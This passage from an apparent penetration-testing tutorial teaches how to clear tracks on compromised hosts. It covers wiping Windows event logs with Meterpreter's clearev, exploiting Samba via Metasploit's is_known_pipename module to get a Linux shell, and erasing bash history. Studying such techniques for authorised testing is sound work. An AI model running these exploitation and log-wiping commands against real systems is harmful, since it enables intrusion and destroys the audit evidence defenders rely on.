**Clearing tracks on Windows**

Whenever you successfully gain access to a Windows target, all of your activity is being logged in the form of Windows events. Meterpreter provides you with the ability to clear the entire Windows Event log. 

```shell
clearev
```

<br>

### 10.2. Clearing Your Tracks on Linux

Clearing tracks on a target machine is a critical step in penetration testing to ensure that the activities conducted during the test do not leave any evidence that could be detected later. In this lesson, we will learn about the process of clearing your tracks on a Linux system.

**Gain access to the system**

```shell
# Before we can begin, we will need to gain access to the target system. To begin with, we will need to identify a vulnerable service running on the target system. 
ping -c 1 <target_IP>
nmap -sV <target_IP>
service postgresql start && msfconsole
use exploit/linux/samba/is_known_pipename
set RHOSTS <target_IP>
exploit
/bin/bash -i
```

**Clearing tracks on Linux**

```shell
# Whenever you successfully gain access to a Linux target, all of your activity is being logged in the form of bash history. 
history -c

# We can also clear the bash history by deleting the content of the .bash_history file.
cat /dev/null > ~/.bash_history
```
